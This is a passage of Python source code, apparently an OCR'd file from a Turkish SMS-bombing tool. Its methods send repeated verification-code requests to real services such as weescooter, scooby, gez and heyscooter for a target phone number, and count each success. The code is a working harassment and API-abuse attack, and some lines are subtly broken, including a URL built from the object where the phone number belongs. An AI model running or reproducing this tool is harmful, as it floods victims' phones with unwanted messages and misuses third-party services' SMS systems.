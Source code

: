             raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> gofody")

    #weescooter
    def weescooter(self):
     try:
        url = "https://friendly-cerf.185-241-138-85.plesk.page/api/v1/members/gsmlogin"
        payload = {
            "tenant": "62a1e7efe74a84ea61f0d588",
            "gsm": f"{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> weescooter")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> weescooter")

    #scooby
    def scooby(self):
     try:
        url = f"https://sct.scoobyturkiye.com/v1/mobile/user/code-request?phonenumber=90{self.phone}"
        r = requests.get(url=url, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> weescooter")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> weescooter")

    #gez
    def gez(self):
     try:
        url = f"https://gezteknoloji.arabulucuyuz.net/api/Account/get-phone-number-confirmation-code-for-new-user?phonenumber=90{self}"
        r = requests.get(url=url, timeout=5)
        r1 = json.loads(r.text)["succeeded"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gez")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> gez")

    #heyscooter
    def heyscooter(self):
     try:
        url = f"https://heyapi.heymobility.tech/V9//api/User/ActivationCodeRequest?organizationId=9DCA312E-18C8-4DAE-AE65-01FEAD558739&phonenumber={self.phone}"
        headers = {"user-agent" : "okhttp/3.12.1"}
        r = requests.post(url=url, headers=headers, timeout=5)
        r1 = json.loads(r.text)["IsSuccess"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> heyscooter")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> heyscooter")
